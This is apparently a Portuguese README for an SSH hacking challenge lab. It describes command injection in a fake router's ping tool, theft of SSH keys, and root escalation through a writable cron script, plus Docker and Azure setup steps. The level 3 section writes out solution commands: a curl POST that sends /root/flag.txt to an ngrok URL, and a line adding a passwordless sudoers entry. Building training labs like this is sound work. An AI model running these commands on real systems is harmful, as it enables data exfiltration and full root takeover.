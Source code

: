 # ssh-game
Repositorio com objetivo de armazenar desafio de hacking relacionado a SSH

## nivel 1
Neste nível, o objetivo é que as pessoas possam navegar em uma interface que se pareça com um roteador.
Até encontrarem uma ferramenta de ping, que utiliza  command line para executar o teste.
Através disto, serão desafiadas a encontrar as chaves de conexão SSH do roteador, seguindo para o desafio nivel 2.
Terá uma flag no arquivo id_rsa, o mais importante para este momento.

## nivel 2
Este nível, é quase uma extensão, em termos de dificuldade, do nível 1.
A pessoa que obtiver as chaves, deverá trazê-las para sua máquina, modificar o nível de permissionamento deste (caso exista, se tratando de windows, isso não faz a menor diferença) e, depois, utilizar para conectar-se via SSH ao pseudo-roteador.
Após os passos descritos acima, é necessário montar o ambiente necessário para conexão via SSH, se for Windows, basta utilizar o Putty, se Linux, já existirá o ssh client nativo.
Ao obter a conexão, será exibido um BANNER de login (WIP), com algumas instruções e a próxima flag.

## nivel 3
Este nível, é o mais difícil e aqui está como finalização, após este o comprometimento da máquina se dá por completo.
A pessoa que estiver jogando, será convidada a ler o conteúdo do arquivo /root/flag.txt.
Para isso, será necessário realizar um privilege escalation através de uma tarefa cron.
Com isso, será demonstrado que, é possível ler uma tabela cron e saber se existem scripts desprotegidos e sendo executados como root.
Uma das possíveis soluções é, criar um arquivo `log.sh`, na home do temp_user para que faça um :
- cat /root/flag/txt > /home/temp_user/flag.txt && chmod 777 /home/temp_user/flag.txt 
- curl -X POST --data-binary @/root/flag.txt [URL_DO_NGROK] 
- echo "temp_user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
Qualquer uma destas soluções habilita a leitura do arquivo /root/flag.txt
O arquivo log.sh pode ser descoberto através de um cat em /etc/crontab


## O que preciso instalar?
  * Docker
    Estes desafios estão FORTEMENTE acoplados a Docker e Docker Compose.
    O desafio 2 considera que existe Docker localmente para que possa iniciar sessões com experiência de SSH mas conectando-se ao tty e stdin dos containers executados.
  * Nodejs 12.x
  * SSH client
  * AZ Cli
  * Terraform (caso queira publicar a infra no Azure via AzureRM)

## Já instalei docker e docker-compose, o que faço agora?
Depois de ter instalado o que era necessário, basta rodar:
```bash
docker-compose build
docker-compose up
```

No caso de estar em ambiente Windows, o sock do docker é diferente, utilize:
```powershell
docker-compose -f docker-compose.windows.yml build
docker-compose -f docker-compose.windows.yml up
```

Os desafios estarão dispoíveis conforme descrito abaixo:
* nivel 1 - [http://localhost:4444](http://localhost:4444)
* nivel 2 - tcp://localhost:2222
* nivel 3 - usa a mesma conexão do nível 2

## Publicando no Azure
Após instalar `AZ Cli` e `terraform` de acordo com as recomendações para o seu sistema operacional, é necessário iniciar algumas etapas:
1. `az login` (para logar em sua conta, basta seguir o passo a passo ao abrir o navegador)
2. `az account show` (para verificar se está utilizando a subscription correta, para trocar veja este [link](https://docs.microsoft.com/en-us/cli/azure/account?view=azure-cli-latest#az_account_set))
3. Na pasta do terraform, `terraform init` (para baixar o provider do Azure, azurerm)
4. `terraform apply` (para que o terraform conecte no azure e crie o plano de provisionamento)
5. Se estiver de acordo com o plano e a subscription usada, responda com `yes` ao prompt do `terraform`
6. Infelizmente, não consegui entender a forma de pegar o Public IP via `output`, para isso, conecte no portal azure e, dentro do resource da VM, veja a propriedade `Public IP address`
7. Ainda não pensei na forma de publicar o jogo todo lá dentro, apenas provisionar recursos ... isto é WIP

## Informações complementares
Para rodar estes desafios, será necessário ter ngrok instalado e, após isto, remapear, no `docker-compose.yml`, portas de nível root (80 e 22).
Portas altas foram usadas para não ser necessário qualquer privilégio administrativo enquanto desenvolvimento.
A experiência completa se baseia em parecer com um roteador de verdade, portanto, é necessário utilizar portas que sejam também usadas por tal.

